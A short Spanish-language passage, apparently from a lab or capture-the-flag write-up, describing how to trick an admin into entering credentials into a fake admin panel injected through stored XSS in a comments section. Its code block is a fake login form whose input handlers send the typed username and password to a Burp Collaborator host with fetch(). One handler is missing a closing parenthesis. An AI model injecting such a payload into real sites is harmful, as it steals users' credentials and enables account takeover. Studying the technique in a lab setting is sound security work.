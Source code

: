 
Ahora debemos de engañar al usuario admin, que inicie sesion en un panel de administrador falso, a traves del XSS stored de la seccion de comentarios

```javascript
Introduce tus credenciales de acceso: <br><br>

Usuario: <input name=username id=username onchange="fetch('https://burp-collaborator?username' + this.value)"><br>
Password: <input name=password id=password onchange="fetch('https://burp-collaborator?password' + this.value>
```

Y nos llegarán 2 peticiones  con su usuario y su contraseña


